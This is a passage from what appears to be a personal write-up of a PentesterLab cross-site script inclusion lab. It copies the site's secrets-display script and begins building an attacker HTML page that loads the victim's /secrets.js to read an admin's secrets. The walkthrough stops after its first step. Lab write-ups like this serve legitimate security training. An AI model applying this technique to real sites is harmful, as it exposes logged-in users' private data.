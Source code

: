 `https://pentesterlab.com/exercises/xssi/course`  
regist and login on this website
![login](image-2.png)
open network tab to capture http request
![http request](image.png)
we can see, this website running script `/secrets.js` contain data `key:value`and a script
```js
<script>
function display(data) {
  var ul= document.getElementById("secrets");
  for (var key in data){
    alert
    var li = document.createElement("li");
    li.appendChild(document.createTextNode(key+":"+data[key]));
    ul.appendChild(li);
  }

}
</script>
```
This script above will get data `key` from `secrets.js` and showing up by list on dashboard website through `<li>` html tag
Look around, this script above will get all content from secrets.js per user, i mean Account `a` using `this script` to get `a's secret data`
ok, lets write a code to injection payload get admin `secrets` information when admin loggin on server

coppy script 
```html
<ul id="secrets"></ul>
<script>
function display(data) {
  var ul= document.getElementById("secrets");
  for (var key in data){
    alert
    var li = document.createElement("li");
    li.appendChild(document.createTextNode(key+":"+data[key]));
    ul.appendChild(li);
  }

}
</script>
<a href="/secrets/new">Add a secret</a>
<script src="/secrets.js">
</script>
```

let's create payload by editing this script,
1. create html file conttain 

```html
<html>
    <body>
        <ul id="secrets"></ul>
        <script>
        function display(data) {
          var ul= document.getElementById("secrets");
          for (var key in data){
            alert
            var li = document.createElement("li");
            li.appendChild(document.createTextNode(key+":"+data[key]));
            ul.appendChild(li);
          }
        
        }
        </script>
        <a href="/secrets/new">Add a secret</a>
        <script src="/secrets.js">
        </script>
    </body>
</html>
```

